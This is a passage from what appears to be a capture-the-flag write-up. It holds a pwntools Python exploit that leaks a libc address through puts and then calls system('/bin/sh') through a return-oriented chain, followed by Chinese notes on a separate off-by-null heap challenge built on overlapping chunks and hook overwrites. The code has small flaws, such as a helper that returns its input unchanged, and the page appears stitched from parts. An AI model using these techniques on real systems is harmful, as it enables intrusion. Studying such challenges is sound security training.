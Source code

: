 ```python
	io.interactive()
def enc(c):
	io.sendlineafter('ice!\n','1')
	io.sendafter('encrypted\n',c)
def dd(enc):
	res = ''
	for i in range(len(enc)):
		if ord(enc[i]) <= 96 or ord(enc[i]) > 122:
			if ord(enc[i]) <= 64 or ord(enc[i]) > 90:
				if ord(enc[i]) > 47 or ord(enc[i]) <= 57:
					res += chr(ord(enc[i]) ^ 0xf)
			else :
				res += chr(ord(enc[i]) ^ 0xe)
		else :
			res += chr(ord(enc[i]) ^ 0xd)
	return enc
pay = 'a'*pad + p64(poprdi) + p64(putsgot) + p64(putsplt) + p64(pmain)
#pay =dd(pay) 

enc(pay)
io.send('\n')
io.recvuntil('llll\x83\x0c\x40\x0a')
libcbase = u64(io.recv(6).ljust(8,'\x00')) - libc.symbols['puts']
success('libcbase : '+hex(libcbase))
#debug()
shaddr = libcbase + libc.search('/bin/sh').next()
sysaddr = libcbase + libc.symbols['system']

pay2 = 'a'*pad + p64(poprdi) + p64(shaddr) + p64(sysaddr)
#pay2 = dd(pay2)

enc(pay2)
io.interactive()
```



## note

off-by-null，这个题是通过off-by-one来改掉last_reminder的size位从而使得再malloc时不会修改下面chunk的presize位而有机会进行chunk shrink.使得两个指针指向同一块chunk。

构造overlapped chunk之后，就简单了。

刚开始尝试了改mallochook reallochook freehook stdio等方法，但大多都因为输入被`\x00`截断而失败 :(



程序开始要求输入`name`。并将其存在堆上。

![5d00ca1aa4e0718616](https://i.loli.net/2019/06/12/5d00ca1aa4e0718616.png)

注意到程序调用leave函数时先向`ptr+4`即上图中堆上的`0x0000556506513040`指针中写入最多64字节得数据，接着调用free释放掉了`name`，如上图即`free(0x556506513000)`。
